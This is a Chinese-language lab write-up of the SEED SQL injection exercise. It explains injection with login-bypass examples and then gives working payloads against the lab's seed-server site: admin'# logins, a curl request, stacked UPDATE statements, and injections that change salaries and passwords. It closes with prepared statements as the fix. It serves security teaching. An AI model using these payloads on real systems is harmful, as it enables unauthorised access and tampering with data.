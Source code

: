 # SQL 注入原理

下图可以很好的表示SQL注入，车牌被识别后，系统会执行drop database指令删除数据库

![](https://img-blog.csdnimg.cn/img_convert/ec8ce91818ae7d3080bdeb55586a55a5.png)

**下面的漫画中，该学生的姓名为“Robert'); DROP TABLE students;--”，导致students表被删除：**

![](https://img-blog.csdnimg.cn/img_convert/5c3cc846a007cb39ab09a6b88c7526ba.png)

在输入的字符串之中注入SQL指令，恶意指令就会被数据库服务器误认为是正常的SQL指令而运行，遭到破坏或是入侵

例如，某个网站的登录验证的SQL查询代码为

```cpp
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

恶意填入

```cpp
userName = "1' OR '1'='1";
```

与

```cpp
passWord = "1' OR '1'='1";
```

时，将导致原本的SQL字符串被填为

```cpp
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

实际上运行的SQL命令会变成下面这样的

```cpp
strSQL = "SELECT * FROM users;"
```

从而达到无账号密码登录网站。所以SQL注入被俗称为**黑客的填空游戏。**

## SQL Injection中的特殊字符：单引号`''`与井号`#`

输入数据两端都会被加上引号`''`作为SQL语句的一部分

比如，下面是一个输入窗口：

![](https://img-blog.csdnimg.cn/img_convert/44fb127eee93184340f3ad7cc69800ad.png)

实际上它的形式：

![](https://img-blog.csdnimg.cn/img_convert/f321fe94d6da7e76b09bd1fa44299434.png)

假若输入数据分别为：`EID5002'  #'`   和  `xyz`

则对应的SQL语句为：

![image-20210323081645971](https://img-blog.csdnimg.cn/img_convert/5fdd2ba79ece2a43aeaf8023f852a8bd.png)

可以看到`#`后的内容被注释

因此，通过人为的输入`''`和`#`，可以改变SQL语句的意义

# lab setup

- 下载实验文件，解压
- 增加hosts映射
- 运行docker

# Task 1: Get Familiar with SQL Statements

```shell
docksh <id> #进入MySQL容器内部

mysql -u root -pdees # root身份进入数据库

use sqllab_users;#使用已创建的sqllab_users数据库

show tables;#显示table

select * from credential; # 打印出credential表全部信息

+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
|  2 | Boby  | 20000 |  30000 | 4/20  | 10213352 |             |         |       |          | b78ed97677c161c1c82c142906674ad15242b2d4 |
|  3 | Ryan  | 30000 |  50000 | 4/10  | 98993524 |             |         |       |          | a3c50276cb120637cca669eb38fb9928b017e9ef |
|  4 | Samy  | 40000 |  90000 | 1/11  | 32193525 |             |         |       |          | 995b8b8c183f349b3cab0ae7fccd39133508d2af |
|  5 | Ted   | 50000 | 110000 | 11/3  | 32111111 |             |         |       |          | 99343bff28a7bb51cb6f22cb20a618701a2c2f58 |
|  6 | Admin | 99999 | 400000 | 3/5   | 43254314 |             |         |       |          | a5bdf35a1df4ea895905f6f6618e83951a6effc0 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
6 rows in set (0.02 sec)
```

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
```

可以看出$input_uname有注入漏洞

# Task 2: SQL Injection Attack on SELECT Statement

www.seed-server.com 是我们要攻击的网站

## Task 2.1: SQL Injection Attack from webpage. 

- username：admin'#
- passwd：随意

成功以admin身份进入

## Task 2.2: SQL Injection Attack from command line.

在不使用网页的情况下完成上述2.1的注入，比如命令行的curl命令

curl语句中要对一些字符进行编码，比如撇号、空格、井号，分别对应%27、%20、%23，详见https://www.w3schools.com/tags/ref_urlencode.ASP

```shell
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%23'
```

成功获取对应的网页源码

## Task 2.3: Append a new SQL statement.

```
'or Name='Admin';UPDATE credential  SET Salary = '88888' WHERE Name='Alice';# 在username中

There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'UPDATE credential SET Salary = '88888' WHERE Name='Alice';#' and Password='da39' at line 3]\n
```

这说明分号前后被分割为两个语句

# Task 3: SQL Injection Attack on UPDATE Statement

edit profile的源码：

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname=’$input_nickname’,
        email=’$input_email’,
        address=’$input_address’,
        Password=’$hashed_pwd’,
        PhoneNumber=’$input_phonenumber’
        WHERE ID=$id;";
$conn->query($sql);
```

## Task 3.1: Modify your own salary.

注入如下：

```
',Salary='99999999'#
```

## Task 3.2: Modify other people’ salary.

```
',salary='1' where name='Boby'#
```

## Task 3.3: Modify other people’ password.

先把nmsl转化为sha1，然后填入password字段方可通过nmsl登录成功

```
',password='nmsl' where name='Boby'#
```

# Task 4: Countermeasure — Prepared Statement

预防SQL注入的方法：使用预处理机制，实现代码与数据分离

可以把原先代码通过预处理进行改写：

```php
$conn = getDB();
$stmt = $conn->prepare("SELECT name, local, gender
FROM USER_TABLE
WHERE id = ? and password = ? ");
// Bind parameters to the query
$stmt->bind_param("is", $id, $pwd);
$stmt->execute();
$stmt->bind_result($bind_name, $bind_local, $bind_gender);
$stmt->fetch();
```

在这里，我们将向数据库发送SQL语句的过程分为两个步骤

- 仅发送代码部分，即不包含实际数据的SQL语句。这是准备步骤。从上面的代码片段可以看出，实际数据被问号？代替。
- 使用bind param()将数据发送到数据库。数据库将在此步骤中发送的所有内容 **仅视为数据，不再视为代码。** 它将数据绑定到准备好的语句的相应问号。

通过这种方式，我们将代码与数据做到了分离，从而防止了SQL注入的可能性
